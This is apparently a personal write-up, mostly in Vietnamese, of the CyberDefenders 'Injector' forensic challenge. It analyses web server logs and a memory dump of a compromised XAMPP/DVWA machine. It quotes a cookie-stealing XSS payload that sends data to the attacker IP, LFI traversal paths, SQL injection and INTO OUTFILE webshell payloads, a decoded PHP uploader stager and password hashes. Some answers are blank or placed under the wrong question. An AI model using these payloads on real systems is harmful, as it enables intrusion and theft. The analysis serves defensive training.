










---


[https://cyberdefenders.org/blueteam-ctf-challenges/injector/](https://cyberdefenders.org/blueteam-ctf-challenges/injector/)


### Q1 What is the computer's name? {#3507b0eb61a4801aae45cce2a6d6e619}


Data
WIN-L0ZZQ76PMUF


### Q2 What is the Timezone of the compromised machine? Format: UTC+0 (no-space) {#3507b0eb61a4806d9998d712105d2b6a}


### Q3 What was the first vulnerability the attacker was able to exploit? {#3507b0eb61a480189e08c08f8caa1e30}


C:\xampp\apache\logs\access.log để tìm log từ web server


Rồi dùng awk và grep


`──(cuong_nguyen㉿Kali)-[~]
└─$ awk '{print $1, $4, $6, $7, $9}' '/home/cuong_nguyen/Desktop/output/access.log' | grep "?" | grep -v "404"`


### Giai đoạn 1: Dò thám và Đánh cắp Cookie (XSS) {#3507b0eb61a480b6b0ddeb6f8a14e673}


::1 [01/Sep/2015:23:05:04 "GET /dvwa/vulnerabilities/xss_r/?name=%3Cscript%3Edocument.location%3D%22http%3A%2F%2F192.168.56.102%2F%3F%22%2Bdocument.cookie%3B%3C%2Fscript%3E 200
&lt;script&gt;document.location="[http://192.168.56.102/?"+document.cookie;&lt;/script](http://192.168.56.102/?%22%20document.cookie%3B%3C%2Fscript=)&gt; 200


- **Thời gian:** `01/Sep/2015 22:59` - `23:05`
- **Hành vi:** Kẻ tấn công thử nghiệm tắt hệ thống phòng thủ (`phpids=off`) và chèn các mã JavaScript độc hại.
- **Payload đáng chú ý:**`name=%3Cscript%3Edocument.location%3D%22http%3A%2F%2F192.168.56.102%2F%3F%22%2Bdocument.cookie%3B%3C%2Fscript%3E`
Khi giải mã URL (URL Decode), đoạn mã này là: `<script>document.location="http://192.168.56.102/?"+document.cookie;</script>`.
- **Mục đích:** Kỹ thuật Reflected XSS. Nếu một nạn nhân (như Admin) bấm vào link này, trình duyệt của họ sẽ tự động gửi Session Cookie về máy chủ của kẻ tấn công (`192.168.56.102`), giúp hacker chiếm phiên đăng nhập.

Giai đoạn 2: Khai thác Local File Inclusion (LFI)

- **Thời gian:** `02/Sep/2015 01:43` - `02:42`
- **Hành vi:** Sau khi rảo quanh các thư mục hệ thống (dấu hiệu của các công cụ quét tự động như DirBuster/Nikto ở các dòng `/dashboard/`), hacker nhắm vào lỗ hổng File Inclusion tại `/dvwa/vulnerabilities/fi/`.
- **Payload đáng chú ý:**
	- `page=../../../../../../windows/system32/drivers/etc/hosts`
	- `page=../../../../../../users/administrator/data.txt`
	- `page=../../../../../../xampp/phpMyAdmin/config.inc`
- **Mục đích:** Sử dụng kỹ thuật Directory Traversal (`../`) để đọc lén các file cấu hình nhạy cảm nằm sâu trong ổ C:. Việc đọc file `config.inc` của phpMyAdmin thường nhằm mục đích lấy mật khẩu gốc (root password) của cơ sở dữ liệu MySQL.

Giai đoạn 3: Cuộc oanh tạc tự động bằng SQLMap

- **Thời gian:** `02/Sep/2015 03:47` - `04:25`
- **Hành vi:** Kẻ tấn công tìm thấy điểm yếu SQL Injection tại tham số `id=`. Bắt đầu từ `03:49`, tốc độ request tăng chóng mặt với những payload dài ngoằng. Đây là dấu hiệu chắc chắn 100% của công cụ tự động **SQLMap**.
- **Phân tích Payload của SQLMap:**
Bạn sẽ thấy SQLMap liên tục thử các kỹ thuật khác nhau để xem hệ thống đang xài loại Database nào:
	- Thử MySQL: `id=a' union select user(), database()`
	- Thử MSSQL: `WAITFOR DELAY '0:0:5'` (Tấn công Time-based)
	- Thử PostgreSQL: `SELECT PG_SLEEP(5)`
	- Thử Oracle: `DBMS_PIPE.RECEIVE_MESSAGE`
	Sau khi xác định được đây là MySQL, nó bắt đầu dùng hàm `CONCAT` với các chuỗi Hex (như `0x7178717871`) để rút ruột dữ liệu từ các bảng `information_schema`.

Giai đoạn 4: Đòn chí mạng - Ghi Webshell lên đĩa cứng

- **Thời gian:** `02/Sep/2015 04:25:52`
- **Payload đắt giá nhất toàn bộ Log:**`LIMIT 0,1 INTO OUTFILE '/xampp/htdocs/tmpukudk.php' LINES TERMINATED BY 0x3c3f706870...`
- **Giải phẫu đòn tấn công:**
	1. Thay vì chỉ đọc dữ liệu, SQLMap sử dụng lệnh `INTO OUTFILE` của MySQL để ép cơ sở dữ liệu **tạo ra một file vật lý** mang tên `tmpukudk.php` nằm ngay trong thư mục web công khai của XAMPP (`htdocs`).
	2. Nội dung của file được mã hóa dạng Hex bắt đầu bằng `0x3c3f706870`. Nếu bạn mang chuỗi này đi dịch ra ASCII, nó chính xác là chữ: **`<?php`**. Đây là đoạn mã PHP (stager) dùng để nhận lệnh từ xa hoặc tạo khung upload file.
	3. Ngay giây tiếp theo (`04:25:53`), hacker truy cập vào file vừa tạo: `GET /tmpbiwuc.php?cmd=echo%20command%20execution%20test` để xác nhận đã thực thi mã từ xa (RCE) thành công. Nó thậm chí còn chạy lệnh `cmd=dir` để xem thư mục, và sau đó cẩn thận xóa file gốc đi để xóa dấu vết (`cmd=del`).

Giai đoạn 5: Hưởng thụ chiến lợi phẩm (Cài cắm C99 Shell)

- **Thời gian:** `03/Sep/2015 00:16` - `00:21`
- **Hành vi:** Sau khi đã có đường dẫn RCE, hacker không dùng dòng lệnh khô khan nữa. Chúng tiếp tục tận dụng tính năng Upload của DVWA để bơm thẳng một file tên là `phpshell.php`.
- Đến `00:20:59`, một cái tên cực kỳ khét tiếng xuất hiện: **`c99.php`**. Đây là một trong những loại Webshell lâu đời và toàn năng nhất của giới Web Hacker. Việc log ghi nhận các request kéo hình ảnh (`act=img&img=home`, `img=ext_zip`...) chứng tỏ hacker đã mở thành công giao diện đồ họa (GUI) của Webshell này ngay trên trình duyệt và đang thoải mái thao tác với máy chủ nạn nhân (upload/download file, đổi quyền chmod, thực thi lệnh `act=cmd`).

### Q4 What is the OS build number? {#3507b0eb61a480ed9641ee5660ca738f}


### Q5 How many users are on the compromised machine? {#3507b0eb61a48088a457e2f716d210c0}





### Q6 What is the webserver package installed on the machine? {#3507b0eb61a480e98d16fdd6ef3f16d7}


A web server package is **a software application or a combination of tools (often including HTTP server software, a database, and scripting languages) that stores web content, processes HTTP requests, and delivers files to web browsers**. Examples include **Apache HTTP Server**, **Nginx**, and **Microsoft IIS**, which handle static files (HTML, images) and manage dynamic content, acting as a "middleman" for web apps. 


### Q7 What is the name of the vulnerable web app installed on the webserver? {#3507b0eb61a480d9a812fc5d0d0a7c2d}


xampp








XAMPP 5.6.11-1

- **Mức độ rủi ro:** Rất Cao (Thường là mục tiêu xâm nhập ban đầu - Initial Access)
- **Phân tích:** Phiên bản XAMPP này được phát hành từ giữa năm 2015, đi kèm với lõi **PHP 5.6.11** và Apache cũ. Dòng PHP 5.6 đã ngừng hỗ trợ (End-of-Life) từ lâu và chứa hàng tá lỗ hổng nghiêm trọng (CVE) cho phép thực thi mã từ xa (RCE), Use-After-Free, hoặc tấn công Deserialization.
- **Cách thức khai thác phổ biến:** Trong các kịch bản tấn công, XAMPP cũ thường có cấu hình mặc định rất yếu. Kẻ tấn công thường nhắm vào trang `phpMyAdmin` được mở công khai hoặc tài khoản cơ sở dữ liệu MySQL cấu hình mặc định (user `root` không có mật khẩu) để lấy cắp dữ liệu, sau đó sử dụng các kỹ thuậ

App path xem có thêm gì không





### Q8 What is the user agent used in the HTTP requests sent by the SQL injection attack tool? {#3507b0eb61a4807aa28dcb1726b59bf3}





**DVWA** (viết tắt của _Damn Vulnerable Web Application_).


Hầu hết mọi mục tiêu tấn công của hacker (từ XSS, Local File Inclusion cho đến SQL Injection) đều nhắm thẳng vào các đường dẫn bắt đầu bằng thư mục /dvwa/.


Ví dụ:


GET /dvwa/vulnerabilities/xss_r/ (Lỗ hổng XSS)


GET /dvwa/vulnerabilities/fi/?page=... (Lỗ hổng File Inclusion)


GET /dvwa/vulnerabilities/sqli/?id=... (Lỗ hổng SQL Injection)


DVWA là một ứng dụng web mã nguồn mở được cố tình lập trình chứa đầy rẫy các lỗ hổng bảo mật. Nó thường được giới bảo mật cài đặt trên các máy ảo đóng kín (Local Lab) để thực hành kỹ năng tấn công (Red Team) hoặc thử nghiệm luật tường lửa (Blue Team).


cat  '/home/cuong_nguyen/Desktop/output/access.log' | grep -Fi "/dvwa/vulnerabilities/sqli/"


`sqlmap/1.0-dev-nongit-20150902`


### Q9 The attacker read multiple files through LFI vulnerability. One of them is related to network configuration. What is the filename? {#3507b0eb61a4802e972ccf7a7bb78286}


hosts


┌──(cuong_nguyen㉿Kali)-[~/Desktop/cyberdefenders.org]
└─$ cat  '/home/cuong_nguyen/Desktop/output/access.log' | grep -Fi "dvwa/vulnerabilities/fi/?page=" | grep "hosts"
`192.168.56.102 - - [02/Sep/2015:02:31:16 -0700] "GET /dvwa/vulnerabilities/fi/?page=../../../../../../windows/system32/drivers/etc/hosts HTTP/1.1" 200 4397 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:38.0) Gecko/20100101 Firefox/38.0 Iceweasel/38.2.0"
192.168.56.102 - - [`http://192.168.56.101/dvwa/vulnerabilities/fi/?page=../../../../../../windows/system32/drivers/etc/hosts`](http://192.168.56.101/dvwa/vulnerabilities/fi/?page=..%2F..%2F..%2F..%2F..%2F..%2Fwindows%2Fsystem32%2Fdrivers%2Fetc%2Fhosts)`" "Mozilla/5.0 (X11; Linux x86_64; rv:38.0) Gecko/20100101 Firefox/38.0 Iceweasel/38.2.0"`


### Q10 The attacker tried to update some firewall rules using netsh command. Provide the value of the type parameter in the executed command? {#3507b0eb61a480e4bab1f87896bdd4cd}


```c++
──(cuong_nguyen㉿Kali)-[~/Desktop/cyberdefenders.org]
└─$ vol2 -f memdump.mem --profile=VistaSP1x86 -g 0x81716c90 consoles | grep "firewall"
Volatility Foundation Volatility Framework 2.6
Cmd #1 at 0x5a17b58: netsh firewall set service type=remotedesktop mode=enable scope=subnet
C:\Users\Administrator>netsh firewall set service type=remotedesktop mode=enable
Cmd #12 at 0xe907e8: netsh firewall /?
Cmd #13 at 0xe91218: netsh firewall set service type = remotedesktop /?
Cmd #14 at 0xe91288: netsh firewall set service type = remotedesktop enable
Cmd #15 at 0xe91300: netsh firewall set service type=remotedesktop mode=enable
Cmd #16 at 0xe91380: netsh firewall set service type=remotedesktop mode=enable scope=subnet

```


### Q11 How many users were added by the attacker? {#3507b0eb61a480cf8d11d11374be2eb6}


2


Tìm trong SAM


### Q12 When did the attacker create the first user? {#3507b0eb61a48062b298e65cba1a7699}


Created On
2015-09-02 09:05:06


### Q13 What is the NThash of the user's password set by the attacker? {#3507b0eb61a48087bcbffe3b20e4ea27}


```c++
┌──(cuong_nguyen㉿Kali)-[~/Desktop/cyberdefenders.org]
└─$ vol2 -f memdump.mem --profile=VistaSP1x86 -g 0x81716c90 hashdump                   
Volatility Foundation Volatility Framework 2.6
Administrator:500:aad3b435b51404eeaad3b435b51404ee:63d6a39b8467b94ae92ab1931d4079dd:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
user1:1005:aad3b435b51404eeaad3b435b51404ee:817875ce4794a9262159186413772644:::
hacker:1006:aad3b435b51404eeaad3b435b51404ee:817875ce4794a9262159186413772644:::
```


### Q14 What is The MITRE ID corresponding to the technique used to keep persistence? {#3507b0eb61a48094b20af32dbc537719}


ta thấy trong consoles hacker có gọi schtasks.exe. Tìm trong registry thử


└─$ vol2 -f memdump.mem --profile=VistaSP1x86 -g 0x81716c90 consoles | grep -Fi "tasks"
Volatility Foundation Volatility Framework 2.6
OriginalTitle: C:\Windows\system32\schtasks.exe


Không thấy gì nhưng ta tìm trong services





Nhưng cái này là của `ad_driver.sys` is **a driver file associated with AccessData (now Exterro) forensic tools, specifically FTK Imager, often used for memory acquisition**


T1136.001 Thật ra là creating new account


### Q15 The attacker uploaded a simple command shell through file upload vulnerability. Provide the name of the URL parameter used to execute commands? {#3507b0eb61a480bc852bd192747cdd1f}

- Đến `00:20:59`, một cái tên cực kỳ khét tiếng xuất hiện: **`c99.php`**. Đây là một trong những loại Webshell lâu đời và toàn năng nhất của giới Web Hacker. Việc log ghi nhận các request kéo hình ảnh (`act=img&img=home`, `img=ext_zip`...) chứng tỏ hacker đã mở thành công giao diện đồ họa (GUI) của Webshell này ngay trên trình duyệt và đang thoải mái thao tác với máy chủ nạn nhân (upload/download file, đổi quyền chmod, thực thi lệnh `act=cmd`).

### Q16 One of the uploaded files by the attacker has an md5 that starts with "559411". Provide the full hash. {#3507b0eb61a480f9968dc19d1f3b29f0}


Các file được thả xuống: 

- **File:** `phpshell.php`
	- **Vị trí vật lý:** `C:\xampp\htdocs\dvwa\hackable\uploads\phpshell.php`
	- **Đường dẫn Web:** `/dvwa/hackable/uploads/phpshell.php`
	- **Ghi chú:** Bắt đầu được sử dụng lúc 00:16:03 ngày 03/Sep/2015. Hacker dùng nó để thăm dò ổ cứng (`cmd=dir C:\`) và tạo thư mục con (`cmd=mkdir abc`).
- **File:** `c99.php`
	- **Vị trí vật lý:** `C:\xampp\htdocs\dvwa\c99.php`
	- **Đường dẫn Web:** `/dvwa/c99.php`
	- **Ghi chú:** Tải lên thành công và truy cập lúc 00:20:59 ngày 03/Sep/2015. Đây là loại Web Shell "hàng khủng" có giao diện đồ họa. Trong log, hacker liên tục tải các icon giao diện của C99 (`act=img&img=home`, `img=ext_php`...) và sau đó dùng nó để gọi lệnh hệ thống (`act=cmd`).




### Q17 The attacker used Command Injection to add user "hacker" to the "Remote Desktop Users" Group. Provide the IP address that was part of the executed command? {#3507b0eb61a480688521e1890933f387}


0x83e7b7f8 cmd.exe                 612    816      1       72      1      0 2015-08-23 10:30:44 UTC+0000  


0x84259100 cmd.exe                1972    816      1       19      1      0 2015-09-02 09:28:30 UTC+0000 


Không thấy gì


`httpd.exe` is the **Apache HTTP Server executable on Windows, acting as a background daemon (hypertext transfer protocol daemon) to serve web content**.


0x83faa020 xampp-control.e        2768    816      2      119      1      0 2015-08-23 10:32:17 UTC+0000


0x83e4d7c0 httpd.exe              2796   2768      1       92      1      0 2015-08-23 10:32:21 UTC+0000


0x83f9ec70 mysqld.exe             2804   2768     23      570      1      0 2015-08-23 10:32:23 UTC+0000


0x83fd5200 FileZillaServer        2856   2768      5       35      1      0 2015-08-23 10:32:25 UTC+0000


0x83fd77a8 httpd.exe              2880   2796    155      483      1      0 2015-08-23 10:32:26 UTC+0000








### Q18 The attacker dropped a shellcode through SQLi vulnerability. The shellcode was checking for a specific version of PHP. Provide the PHP version number? {#3507b0eb61a480d49782d10be454d820}





2' LIMIT 0,1 INTO OUTFILE '/xampp/htdocs/tmpudvfh.php’ 

- **`2' LIMIT 0,1`**:
Kẻ tấn công đóng chuỗi truy vấn gốc của ứng dụng (bằng dấu nháy đơn `'`) và dùng `LIMIT 0,1` để ép MySQL chỉ xử lý đúng 1 dòng dữ liệu. Điều này giúp file xuất ra được gọn gàng, không bị rác bởi các dữ liệu thừa của database.
- **`INTO OUTFILE '/xampp/htdocs/tmpudvfh.php'`**:
Đây là tính năng hợp pháp của MySQL dùng để xuất dữ liệu ra file văn bản. Tuy nhiên, hacker đã lạm dụng nó để ghi file thẳng vào thư mục web công khai của XAMPP. (Kỹ thuật này đòi hỏi tài khoản MySQL đang chạy phải có đặc quyền `FILE` - và không may là tài khoản `root` mặc định của XAMPP luôn có quyền này).
- **`LINES TERMINATED BY 0x3c3f7068...`**:
Đây là kỹ thuật **Evasion (Né tránh)** cực kỳ thông minh của SQLMap. Thay vì cố gắng `SELECT` nội dung mã độc (vốn dễ bị tường lửa - WAF chặn lại vì chứa các ký tự nhạy cảm như `< > ' "`), SQLMap nhúng toàn bộ mã độc vào **ký tự kết thúc dòng (Line Terminator)** dưới dạng mã Hex.
MySQL khi ghi file sẽ tự động dịch ngược mã Hex này thành văn bản thuần túy (Plaintext) và ghi vào cuối file.

Dùng cyber chef giải mã from hex to ascii


```c++
<?php
if (isset($_REQUEST["upload"])){
    $dir=$_REQUEST["uploadDir"];
    if (phpversion()<'4.1.0'){
        $file=$HTTP_POST_FILES["file"]["name"];
        @move_uploaded_file($HTTP_POST_FILES["file"]["tmp_name"],$dir."/".$file) or die();
    }else{
        $file=$_FILES["file"]["name"];
        @move_uploaded_file($_FILES["file"]["tmp_name"],$dir."/".$file) or die();
    }
    @chmod($dir."/".$file,0755);
    echo "File uploaded";
}else {
    echo "<form action=".$_SERVER["PHP_SELF"]." method=POST enctype=multipart/form-data>
    <input type=hidden name=MAX_FILE_SIZE value=1000000000>
    <b>sqlmap file uploader</b><br>
    <input name=file type=file><br>
    to directory: <input type=text name=uploadDir value=\\xampp\\htdocs\\> 
    <input type=submit name=upload value=upload></form>";
}
?>
```

